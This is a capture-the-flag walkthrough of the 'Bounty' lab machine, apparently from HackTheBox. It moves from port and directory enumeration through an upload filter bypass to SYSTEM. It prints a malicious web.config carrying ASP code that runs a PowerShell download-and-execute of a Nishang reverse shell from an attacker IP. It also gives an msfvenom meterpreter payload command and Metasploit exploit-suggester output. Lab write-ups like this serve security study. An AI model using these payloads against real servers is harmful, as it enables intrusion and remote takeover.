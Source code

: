 1,Recon
port scan
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
Page check
![](images/Pasted%20image%2020241216020337.png)
The index page seems like nothing here.

So we would continue to enumerate the web-content.
```
root@kali# gobuster -u http://10.10.10.93 -w usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -o gobuster_root -x aspx

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.93/
[+] Threads      : 30
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Output file  : gobuster_root
[+] Status codes : 301,302,307,200,204
[+] Extensions   : .aspx
=====================================================
/transfer.aspx (Status: 200)
/uploadedFiles (Status: 301)
/uploadedfiles (Status: 301)
=====================================================

```
In this place, there is uploading page here.
![](images/Pasted%20image%2020241216021347.png)
In this place, only image files could be upload, and 
The response headers indicate that the site is powered by ASP.NET:
```
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Thu, 31 May 2018 03:46:26 GMT
Accept-Ranges: bytes
ETag: "20ba8ef391f8d31:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Mon, 18 Jun 2018 13:39:22 GMT
Connection: close
Content-Length: 630
```

I can bypass the filter by adding a null byte after our aspx so that the app thinks it’s a jpg, but then saves it as an aspx:
![](images/Pasted%20image%2020241216023451.png)
Then I upload it successfully, but it seems not work here.
when I then view http://10.10.10.93/UploadedFiles/cmdasp.aspx, it returns an error:
![](images/Pasted%20image%2020241216023531.png)
It leads me to the web.config
https://soroush.me/blog/tag/unrestricted-file-upload/
This blog has given us a way to use web.config with shell code.

I would like use `Nishang’s Invoke-PowerShellTcp.ps1` to handle a reverse shell.

So basically I need a WSCRIPT.SHELL COM object, and use it’s Run function to run a command. Ok, so because I only want to run one specific line to download and execute my Nishang shell, this should be simple. Here’s a web.config file that will start that process:
```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.16.8/Invoke-PowerShellTcp.ps1')")
%>
```

Now, I take two steps:

1, Upload the web.config using the web form
2, Visit http://10.10.10.93/UploadedFiles/web.config, which runs the asp code, which invokes PowerShell to download the Nishang shell, and then run it creating a connection back to me

2, Privesc: merlin –> SYSTEM
It turns out that the file is there, it’s just hidden. If I re-run Get-ChildItem (or gci or ls) with the -Force flag, it shows up:
```
PS C:\users\merlin\desktop> gci -force


    Directory: C:\users\merlin\desktop


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a-hs         5/30/2018  12:22 AM        282 desktop.ini
-a-h-         5/30/2018  11:32 PM         32 user.txt

```

By checking the systeminfo
```
PS C:\Users\merlin\Desktop> systeminfo

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          12/16/2024, 3:19:53 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2645 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,247 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,193 MB
Virtual Memory: In Use:    902 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.93
```

`Microsoft Windows Server 2008 R2 Datacenter` is a very old version, so of course we can use kernel vulners.

Metasploit has a very nice, built in, exploit suggester. I’ll need a meterpreter shell. First, generate some PowerShell as a loader:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.8 LPORT=445 -f psh -o met-445.ps1

From the target machine run
iex(new-object net.webclient).downloadstring('http://10.10.16.8/met-445.ps1')

Invoke-WebRequest "http://10.10.16.8/met-445.ps1" -OutFile "shell.ps1"

```

Then when we get the meterpreter shell, we can use `multi/recon/local_exploit_suggester` to check kernel exploits
```
1   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/cve_2019_1458_wizardopium                Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!                                                                                                                                                    
 7   exploit/windows/local/cve_2020_1054_drawiconex_lpe             Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/cve_2021_40449                           Yes                      The service is running, but could not be validated. Windows 7/Windows Server 2008 R2 build detected!                                                                                                                                                               
 9   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 11  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 12  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.

```

In this place, I use `exploit/windows/local/ms16_075_reflection_juicy` and then successfully get the shell as SYSTEM.
